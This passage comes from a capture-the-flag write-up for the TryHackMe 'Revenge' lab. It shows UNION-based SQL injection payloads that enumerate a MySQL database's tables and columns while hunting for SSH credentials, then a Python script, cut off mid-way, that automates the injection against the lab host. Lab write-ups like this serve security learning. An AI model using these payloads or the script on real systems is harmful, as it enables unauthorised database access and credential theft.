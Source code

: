 Yep. **MySQL version 5.7.31-0ubuntu0.18.04.1.**

**Next, I wanna know which database I'm current in:**
```sql
0 UNION ALL SELECT NULL,NULL,NULL,NULL,1,1,NULL,database()-- -
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Revenge/images/Pasted%20image%2020221227021157.png)

- Current database: `duckyinc`

**Listing tables:**
```sql
0 UNION ALL SELECT NULL,NULL,NULL,NULL,1,1,NULL,table_name FROM information_schema.tables-- -
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Revenge/images/Pasted%20image%2020221227021645.png)

**Hmm... Only 1 result. Let's use the `LIMIT` clause. Also, we're only interested in database `duckyinc`, so let's use the `WHERE` clause:**
```sql
0 UNION ALL SELECT NULL,NULL,NULL,NULL,1,1,NULL,table_name FROM information_schema.tables WHERE table_schema='duckyinc' LIMIT 1 OFFSET 0-- -
0 UNION ALL SELECT NULL,NULL,NULL,NULL,1,1,NULL,table_name FROM information_schema.tables WHERE table_schema='duckyinc' LIMIT 1 OFFSET 1-- -
0 UNION ALL SELECT NULL,NULL,NULL,NULL,1,1,NULL,table_name FROM information_schema.tables WHERE table_schema='duckyinc' LIMIT 1 OFFSET 2-- -
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Revenge/images/Pasted%20image%2020221227022053.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Revenge/images/Pasted%20image%2020221227022123.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Revenge/images/Pasted%20image%2020221227022155.png)

- Database `duckyinc` tables: `product`, `system_user`, `user`

Hmm... Table `system_user` sounds very interesting. **Maybe it holds some SSH credentials?**

**Listing columns in database `duckyinc`'s table `system_user`:**
```sql
0 UNION ALL SELECT NULL,NULL,NULL,NULL,1,1,NULL,column_name FROM information_schema.columns WHERE table_name='system_user' LIMIT 1 OFFSET 0-- -
```

**Also, I wanna write a python script to automate that:**
```py
#!/usr/bin/env python3
import requests
import urllib.parse
from bs4 import BeautifulSoup

def main():
    url = 'http://revenge.thm/products/'
    position = 0

    while True:
        payload = f"""0 UNION ALL SELECT NULL,NULL,NULL,NULL,1,1,NULL,column_name FROM information_schema.columns WHERE table_name='system_user' LIMIT 1 OFFSET {position}-- -"""
        finalPayload = url + urllib.parse.quote(payload)

        request = requests.get(finalPayload)

        if request.status_code == 500:
            print(f'[-] Payload failed: {payload}')
            exit()
        else:
            position += 1
```